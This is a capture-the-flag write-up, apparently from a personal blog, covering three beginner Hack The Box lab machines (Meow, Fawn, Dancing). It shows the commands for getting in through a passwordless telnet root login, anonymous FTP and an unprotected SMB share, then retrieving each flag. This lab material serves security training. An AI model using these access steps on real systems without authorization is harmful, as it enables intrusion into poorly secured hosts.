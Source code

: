 ```yaml
---
layout: post
title: 'HTB | Tier 0'
permalink: /ctf/htb/starting-point/tier-0/
---
```


# Meow
## Connection
We just need to connect with telnet. The user will be root, with no password.
{% highlight bash %}
> telnet 10.129.53.229
> Meow login: root
{% endhighlight %}

## Flag
Then we will have the flag just there.
{% highlight bash %}
> ls
> cat flag.txt
{% endhighlight %}

---

# Fawn
## Connection
In this case we need to make a connection with ftp. We will use the **anonymous** user to connect, with no password.
{% highlight bash %}
> ftp 10.129.1.14
Name (10.129.1.14:kali): anonymous
Password:
{% endhighlight %}

## Flag
With **get**, we can download the file.
{% highlight bash %}
ftp> ls
ftp> get flag.txt
ftp> exit

> cat flag.txt
{% endhighlight %}

---

# Dancing
## Connection
We will need to use samba to connect. With the option **-L** we can see all the folders we have. We can see that the last one doesn't have protection.
{% highlight batch %}
> smbclient -L //10.129.119.218/
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk 
> smbclient //10.129.119.218/WorkShares
{% endhighlight %}

## Flag
With the command **get** we can download the file.
{% highlight batch %}
smb: \> ls
smb: \> cd James.P\
smb: \James.P\> ls
smb: \James.P\> get flag.txt
smb: \James.P\> exit

> cat flag.txt 
{% endhighlight %}

